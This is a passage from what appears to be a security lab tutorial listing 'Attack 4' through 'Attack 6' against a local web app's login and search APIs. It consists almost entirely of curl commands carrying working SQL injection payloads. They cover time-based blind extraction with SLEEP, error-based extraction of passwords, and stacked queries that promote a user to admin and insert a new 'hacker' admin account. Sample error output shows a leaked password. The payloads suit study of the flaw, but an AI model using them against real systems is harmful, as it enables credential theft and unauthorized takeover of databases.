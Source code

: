 #### Attack 4: Time-Based Blind SQL Injection

```bash
# Use SLEEP() to detect injection
curl -X POST http://localhost:3000/api/legacy-login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin'\'' OR SLEEP(5)-- ",
    "password": "x"
  }'

# If response takes 5 seconds, injection works!

# Extract data one bit at a time
curl -X POST http://localhost:3000/api/legacy-login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin'\'' OR IF(SUBSTRING(password,1,1)='\''a'\'',SLEEP(5),0)-- ",
    "password": "x"
  }'
```

#### Attack 5: Error-Based SQL Injection

```bash
# Trigger SQL errors to extract data
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT password FROM users LIMIT 1),0x3a,FLOOR(RAND()*2))x FROM information_schema.tables GROUP BY x)y)-- "
  }'
```

**Error Message Reveals Data:**
```json
{
  "success": false,
  "error": "Duplicate entry 'admin123:1' for key 'group_key'"
}
```

#### Attack 6: Stacked Queries (Data Modification)

```bash
# Execute multiple queries
curl -X POST http://localhost:3000/api/legacy-login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin'\'' ; UPDATE users SET role='\''admin'\'' WHERE id=5 ; --",
    "password": "x"
  }'

# Or create new admin user
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' ; INSERT INTO users (username,password,role) VALUES ('\''hacker'\'','\''password'\'','\''admin'\'') ; -- "
  }'
```
